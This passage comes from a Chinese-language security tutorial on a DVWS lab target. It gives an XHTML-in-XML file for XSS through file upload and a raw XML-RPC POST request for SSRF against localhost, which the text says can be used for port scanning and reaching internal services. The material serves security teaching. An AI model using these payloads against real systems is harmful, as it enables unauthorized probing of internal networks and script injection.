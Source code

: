 [![](assets/1705886707-618b3d46af902e8c134bab39fd5020e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115906-4208cd98-b748-1.png)  
在这里我们还要扩展一个通过上传XML文件导致XSS的示例，构造如下带有XHTML的XML文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作  
[![](assets/1705886707-c417a4dbd52dea735553c04dfed099a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115934-527a42b0-b748-1.png)  
[![](assets/1705886707-27da8206e83ce92b722d9f5b2070b7cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115941-56874ea2-b748-1.png)

### SSRF攻击

服务器端请求伪造(SSRF)在SOAP中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些API或RPC服务可能提供从其他API/应用程序以HTTP请求参数的形式获取数据的功能，在这些情况下，我们可以利用API来执行端口扫描等操作，在DVWS应用程序的端口9090中可以使用XML-RPC服务，在DVWS节点应用程序中有关此XML-RPC服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```plain
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```
